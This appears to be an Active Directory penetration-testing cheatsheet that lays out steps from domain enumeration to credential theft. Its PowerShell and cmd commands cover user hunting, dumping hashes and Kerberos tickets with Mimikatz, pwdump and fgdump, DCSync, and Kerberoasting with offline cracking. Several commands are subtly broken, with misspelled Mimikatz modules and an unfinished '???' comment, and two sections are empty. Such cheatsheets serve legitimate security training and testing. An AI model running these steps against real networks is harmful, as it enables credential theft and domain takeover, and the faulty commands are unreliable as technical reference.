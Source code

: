 # Active Directory Cheatsheet

## AD Introduction

Goal:
1. Perform user hunting to track down where users are logged into in the network - find users that are members of high-value groups.
2. Dump credentials and/or obtain Kerberos tickets.
3. Gain access to the user's machine using creds/ticket.
4. (Possibly) escalate privileges in the machine.
5. Repeat steps above until you have administrative privileges in the Domain Controller.

## AD Enumeration

### Enumeration - Manual

Enum users/groups/computers
* Look for users with high-privs across the domain e.g. Domain Admins or Derivative Local Admins
* Look for custom groups.
```
# get all users in the domain
cmd> net user /domain
cmd> net user [username] /domain

# get all groups in the domain
cmd> net group /domain
cmd> net group [groupname] /domain

# get all computers in the domain
cmd> net computer /domain
cmd> net computer \\[computername] /domain
```

Enum Domain Controller hostname (PdcRoleOwner)
```
PS> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

Enum via. Service Principal Names (Service Accounts)
* SPNs are unique service instance identifiers, used to associate a service on a server to a service account in Active Directory.
* Enum SPNs to obtain the IP address and port number of apps running on servers integrated with Active Directory.
* Query the Domain Controller in search of SPNs.

```
# Example: search by web server (http) (see automated script below)
$Searcher.filter="serviceprincipalname=*http*"

----OUTPUT----
serviceprincipalname     {HTTP/CorpWebServer.corp.com}
----OUTPUT----

# resolve the hostname
$ nslookup corpwebserver.corp.com
Server: UnKnown
Address: 192.168.1.110

Name: corpwebserver.corp.com
Address: 192.168.1.110
```


### Enumeration - Automated

PowerView.ps1
* https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview
```
# import module
PS> Import-Module .\PowerView.ps1

# enum logged-in users on target computer
PS> Get-NetLoggedon -ComputerName [computer_name]

# enum active user sessions, targeting computer/DC
PS> Get-NetSession -ComputerName [domain_controller]
```

PowerShell automated users/groups/computers and SPN enum
```
# build the LDAP path
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName

# instantiate DirectorySearcher class with LDAP provider path.
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry($SearchString, "[domain_name]\[user]","[password]")
$Searcher.SearchRoot = $objDomain

# ###########################
# UNCOMMENT FILTERS AS NEEDED
# ###########################

# filter by Domain Admin users
$Searcher.filter="memberof=CN=Domain Admins,CN=Users,DC=corp,DC=com"

# filter by all Users in domain
# $Searcher.filter="samAccountType=805306368"

# filter by all Groups in domain
# $Searcher.filter="objectcategory=group"

# filter by all Computers in domain
# $Searcher.filter="objectcategory=computer"

# filter by all Computers AND operating sys is Windows 10
# $Searcher.filter="(&(objectcategory=computer)(operatingsystem=*Windows 10*))"

# filter by SPN
$Searcher.filter="serviceprincipalname=*http*"

# invoke
$Result = $Searcher.FindAll()

# print each object and its properties
Foreach($obj in $Result) {
        Foreach($prop in $obj.Properties){$prop}
        Write-Host "------------------------"
}
```

## AD Authentication

### NTLM ###

NTLM authentication uses a challenge-response model, where a nonce/challenge encrypted using the user's NTLM hash is validated by the Domain Controller.

Dumping LM/NTLM hashes with Mimikatz
```
# Open mimikatz and escalate security token to SYSTEM integrity
cmd> mimikatz.exe
mimikatz > privilege::debug
mimikatz > token::elevate

# Dump creds of all logged-on users using the Securlsa module
mimikatz > securlsa::logonpasswords

# Dump Ticket Granting Ticket and Ticket Granting Service (kerberos tickets)
# -> Access resources associated with these tickets OR
# -> Obtain TGS with a TGT to access specific resources we want to target in the domain.
mimkatz > seccurlsa::tickets

# Dump contents of SAM database in current host
mimikatz > lsadump::sam

# Dump contents of ???
mimikatz > lsadump::dcsync /domain:pentestlab.local /all
```

Other tools
```
# pwdump
cmd> pwdump.exe localhost

# fgdump (improved pwdump, shutdown firewalls)
cmd> fgdump.exe localhost

# all domain hashes in NTDS.dit file on the Domain Controller
cmd> type C:\Windows\NTDS\NTDS.dit
```

### Kerberos ####

Kerberos authentication uses a ticketing system, where a Ticket Granting Ticket (TGT) is issued by the Domain Controller (with the role of Key Distribution Center (KDC)) and is used to request tickets from the Ticket Granting Service (TGS) for access to resources/systems joined to the domain.
* Hashes are stored in the Local Security Authority Subsystem Service (LSASS).
* LSASS process runs as SYSTEM, so we need SYSTEM / local admin to dump hashes stored on target.

Dumping hashes or Kerberos TGT/TGS tickets with Mimikatz
```
# escalate security token to SYSTEM integrity
cmd> mimikatz.exe
mimikatz > privilege::debug
mimikatz > token::elevate

# dump creds of all logged-on users using Securlsa module
mimikatz > securlsa::logonpasswords

# dump TGT and TGS tickets
# -> access resources associated with the tickets
# -> exchange TGS with TGT to access resources we want to target in domain
mimikatz > securlsa::tickets

# dump contents of SAM db in current host
mimikatz > lsadump::sam
```

Service account attacks
* If we know the `serviceprincipalname` value from prior AD enum, we can target the SPN by by requesting a service ticket for it from the Domain Controller and access resources from the service with our own ticket.
```
# load the System.IdentityModel namespace
PS> Add-Type -AssemblyName System.IdentityModel

# request the Service Ticket
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '[service_principal_name]'

# list cached Kerberos tickets for the current user
PS> klist

# download/export cached tickets
mimikatz > kerberos::list /export
```

Crack SPN password hash with Kerberoast
```
# locally crack hashes
$ python tgsrepcrack.py wordlist [/path/to/exported/tickets]

# crack hashes on target
PS> Invoke-Kerberoast.ps1
```


## AD Lateral Movement




## AD Persistence



